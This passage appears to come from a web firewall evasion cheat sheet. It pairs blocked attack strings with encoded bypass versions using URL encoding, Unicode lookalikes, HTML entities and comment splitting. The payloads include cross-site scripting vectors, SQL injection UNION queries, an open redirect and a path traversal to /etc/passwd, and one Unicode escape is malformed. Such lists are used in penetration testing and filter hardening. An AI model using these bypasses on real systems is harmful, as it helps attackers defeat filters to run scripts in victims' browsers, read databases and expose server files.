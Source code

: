 **2. URL Encoding**
```bash
# Blocked
<svG/x=">"/oNloaD=confirm()//

# Bypassed
%3CsvG%2Fx%3D%22%3E%22%2FoNloaD%3Dconfirm%28%29%2F%2F

# Blocked
uNIoN(sEleCT 1,2,3,4,5,6,7,8,9,10,11,12)

# Bypassed
uNIoN%28sEleCT+1%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%29
```

**3. Unicode Normalization**
```bash
# Standard
<marquee onstart=prompt()>
# Obfuscated
<marquee onstart=\u0070r\u06f\u006dpt()>


# Blocked
/?redir=http://google.com
# Bypassed
/?redir=http://google。com (Unicode alternative)


# Blocked
<marquee loop=1 onfinish=alert()>x
# Bypassed
＜marquee loop＝1 onfinish＝alert︵1)>x (Unicode alternative)


# Standard
../../etc/passwd
# Obfuscated
%C0AE%C0AE%C0AF%C0AE%C0AE%C0AFetc%C0AFpasswd
```

**4. HTML Representation**
```bash
# Standard
"><img src=x onerror=confirm()>
# Encoded
&quot;&gt;&lt;img src=x onerror=confirm&lpar;&rpar;&gt; (General form)
# Encoded
&#34;&#62;&#60;img src=x onerror=confirm&#40;&#41;&#62; (Numeric reference)
```

**5. Using Comments**
```bash
# Blocked
<script>alert()</script>
# Bypassed
<!--><script>alert/**/()/**/</script>

# Blocked
/?id=1+union+select+1,2,3--
# Bypassed
/?id=1+un/**/ion+sel/**/ect+1,2,3--
```
